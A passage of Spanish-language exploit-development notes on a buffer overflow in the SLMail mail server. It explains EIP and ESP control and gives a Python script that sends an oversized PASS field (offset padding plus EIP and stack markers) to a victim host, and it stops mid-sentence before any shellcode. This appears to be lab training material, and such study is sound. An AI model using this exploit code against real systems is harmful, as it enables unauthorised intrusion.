 #BufferOverflow #ShellCode #SLMail 

Una vez tenemos calculado el offset(cantidad de caracteres a introducir antes del EIP), si introducimos cuatro caracteres adicionales estos van a estar representados en el *EIP* como dirección.
Una vez sobrescrito el *EIP* veremos que los datos se almacenan al comienzo de la pila(stack) en el registro *ESP (Extended Stack Pointer)*, este es un registro de la CPU que se utiliza para manejar la pila en un programa.
La pila es una zona de memoria temporal que se utiliza para almacenar valores y *direcciones de retorno* de las funciones a medida que se van llamando al programa.
Una vez identificados estos caracteres en la memoria la idea principal es introducir una *shellcode* en esa dirección.

00.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	after_eip = b"C"*200 #Cadena para ver donde se almacenan los demas valores en la pila despues del EIP
	
	payload = before_eip + eip + after_eip
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
		
```
Lo ejecutamos y en el Inmunity veremos que en  el registro *ESP* y nos muestra una dirección, si hacemos clic derecho y follow in dump nos muestra la representación de esa dirección(`Codigo hexadecimal`).
Esto nos permite 